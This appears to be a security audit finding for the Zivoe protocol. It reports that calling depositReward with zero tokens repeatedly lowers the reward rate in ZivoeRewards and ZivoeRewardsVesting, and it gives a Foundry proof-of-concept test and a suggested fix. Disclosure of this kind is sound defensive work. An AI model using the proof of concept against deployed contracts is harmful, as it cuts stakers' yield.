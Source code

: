Faint Berry Gecko

high

# Attacker can decrease reward rate in ZivoeRewards and ZivoeRewardsVesting

## Summary
An attacker can decrease the reward rate for a reward token in ZivoeRewards and ZivoeRewardsVesting by calling `depositReward()` without depositing any tokens.

## Vulnerability Detail
In `depositRewards()`, the reward rate is calculated using:

```sol
uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
```

So reward rate is the total amount of reward tokens left to distribute divided by the reward duration. By calling the function without depositing any tokens (`reward == 0`), it will update the reward rate using just the leftover tokens. That value will always be smaller than the initial deposit. Thus, subsequent calls to the function will always result in the reward rate being decreased.

## Impact
Users receive fewer reward tokens than they should lowering their yield.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L225-L243

Here's a PoC:

```sol
// TESTS_Core/Test_ZivoeRewards.sol
   function test_attack() public {
        uint256 deposit = 1e18;

        // Pre-state.
        uint256 _preDAI = IERC20(DAI).balanceOf(address(stZVE));

        (
            uint256 rewardsDuration,
            uint256 periodFinish,
            uint256 rewardRate,
            uint256 lastUpdateTime,
            uint256 rewardPerTokenStored
        ) = stZVE.rewardData(DAI);

        assert(block.timestamp >= periodFinish);

        // depositReward().
        mint("DAI", address(bob), deposit);
        assert(bob.try_approveToken(DAI, address(stZVE), deposit));

        assert(bob.try_depositReward(address(stZVE), DAI, deposit));

        (
            rewardsDuration,
            periodFinish,
            rewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = stZVE.rewardData(DAI);

        assertEq(rewardsDuration, 30 days);
        assertEq(rewardRate, deposit / rewardsDuration);
    
        vm.warp(block.timestamp + 15 days);
        assert(bob.try_depositReward(address(stZVE), DAI, 0));

        (
            rewardsDuration,
            periodFinish,
            rewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = stZVE.rewardData(DAI);

        assertEq(rewardsDuration, 30 days);
        
        // will fail
        assertEq(rewardRate, deposit / rewardsDuration);
    }
```

## Tool used

Manual Review

## Recommendation
The leftover funds should be distributed with the initial reward rate:

```sol
initialRewardRate = leftovers / (rewardsDuration - (depositTs - block.timestamp))
rewardRate = initialRewardRate + reward / rewardsDuration
```
